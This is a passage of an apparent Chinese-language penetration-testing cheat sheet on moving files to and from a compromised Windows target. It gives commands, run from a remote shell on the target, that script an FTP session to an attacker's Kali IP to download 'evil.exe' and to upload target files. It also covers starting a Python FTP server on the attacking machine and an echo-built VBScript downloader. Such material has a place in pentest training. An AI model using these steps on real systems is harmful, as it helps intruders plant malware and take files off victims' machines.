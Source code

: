 目标机的远程 shell 上运行
```bash
echo open <kali-ip> 21> ftp.txt
echo username>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

目标机上传文件(连接状态):
```bash
ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
```

关闭 ftp:
```bash
/etc/init.d/pure-ftpd stop
```

攻击机使用 python 起 ftp:
```
apt-get install python-pyftpdlib
mkdir /ftp
cd /ftp/
python -m pyftpdlib -p 21
```
此时目标机连接的时候,用户名为 anonymous,密码随意

---

### vbscript

```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
